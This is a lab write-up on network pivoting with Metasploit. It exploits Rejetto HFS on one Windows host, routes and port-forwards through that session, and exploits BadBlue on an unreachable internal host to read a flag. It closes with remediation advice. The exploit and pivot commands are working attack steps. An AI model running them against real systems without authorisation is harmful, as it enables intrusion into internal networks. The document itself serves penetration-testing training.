# Pivoting

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target 1:** demo.ine.local (10.2.20.138) — Windows, Rejetto HFS<br>
**Target 2:** 10.2.16.247 — Windows, BadBlue (internal, not directly reachable)<br>
**Flag:** `c46d12f28d87ae0b92b05ebd9fb8e817`

## 1. Executive Summary

The second target is only reachable through the first. We exploit **Rejetto HFS** on target 1
for a Meterpreter foothold, add a route to the internal subnet with `autoroute`, port-scan
and `portfwd` the internal host's web port to a local port, then exploit its **BadBlue**
service through the pivot to read the flag.

## 2. Recon

Target 2 is not directly pingable.

```bash
ping -c 4 demo.ine.local       # target 1 reachable; target 2 is not
db_nmap -sV 10.2.20.138
```









## 3. Target 1 — Foothold

```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.2.20.138
exploit
```



## 4. Pivoting

Adding a route to the internal subnet.

```bash
run autoroute -s 10.2.20.0/20
# [+] Added route to 10.2.20.0/255.255.240.0 via 10.2.20.138
```



Renaming the session for clarity.

```bash
sessions -n Victim1 -i 1
```



Scanning the internal second host through the route.

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.16.247
run
```



Port-forwarding the internal host's port 80 to a local port.

```bash
sessions 1
portfwd add -l 1234 -p 80 -r 10.2.16.247
```



```bash
db_nmap -sV -p1234 127.0.0.1
```



## 5. Target 2 — BadBlue via the Pivot

```bash
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.16.247
exploit
```







Renaming the new session; the flag is in `C:\`.

```bash
sessions -n Victim2 -i 4
cat C:\flag.txt
# c46d12f28d87ae0b92b05ebd9fb8e817
```



## 6. Remediation Recommendations

1. **Segment the network** so a DMZ/internet-facing host can't route to internal servers;
   restrict east-west traffic with host firewalls.
2. **Patch/replace Rejetto HFS and BadBlue** — both are remotely exploitable and unmaintained.
3. **Monitor for pivoting behaviour** (unexpected routes, port forwards, internal scans from
   a DMZ host).
4. **Apply least privilege** and egress/ingress filtering between network zones.
